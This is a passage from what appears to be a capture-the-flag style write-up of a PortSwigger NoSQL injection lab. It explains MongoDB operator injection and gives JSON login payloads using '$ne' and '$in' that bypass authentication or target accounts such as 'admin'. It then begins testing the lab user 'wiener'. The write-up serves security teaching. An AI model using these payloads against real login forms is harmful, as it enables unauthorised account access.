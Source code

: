 If the `$ne` operator is applied, this queries all users where the username is not equal to `invalid`.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload:

```json
{
    "username":{
        "$ne": "invalid"
    },
    "password":{
        "$ne": "invalid"
    }
}
```

This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example:

```json
{
    "username":{
        "$in":[
            "admin",
            "administrator",
            "superadmin"
        ]
    },
    "password":{
        "$ne": ""
    }
}
```

Now, let's try to login as user `wiener` but with an incorrect password:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009142112.png)

It respond to us with "Invalid username or password".

**We can try to detect operator injection in MongoDB with the following payload:**
```json
{
    "username": "wiener",
    "password":{
        "$ne": "foobar"
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009142652.png)
